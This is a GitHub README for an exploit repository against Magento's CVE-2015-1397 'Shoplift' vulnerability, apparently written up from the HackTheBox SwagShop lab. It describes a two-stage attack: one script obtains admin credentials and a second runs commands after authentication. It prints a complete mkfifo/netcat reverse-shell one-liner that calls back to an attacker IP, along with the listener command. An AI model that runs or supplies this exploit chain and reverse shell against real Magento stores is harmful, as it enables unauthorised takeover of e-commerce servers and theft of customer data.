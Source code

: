 # CVE-2015-1397-Magento-Shoplift

[Vulnerability Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1397)

Vulnerability as seen in HackTheBox - SwagShop

## Stage 1 = exploit.py
Gain administrator credentials to Magento CMS dashboard
## Stage 2 = post_auth.py
With credentials gained from exploit.py added to post_auth.py run: 
```bash
python3 post_auth.py http://TARGET.SITE/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f"
```
Listener:
```bash
nc -lvnp 4444
```

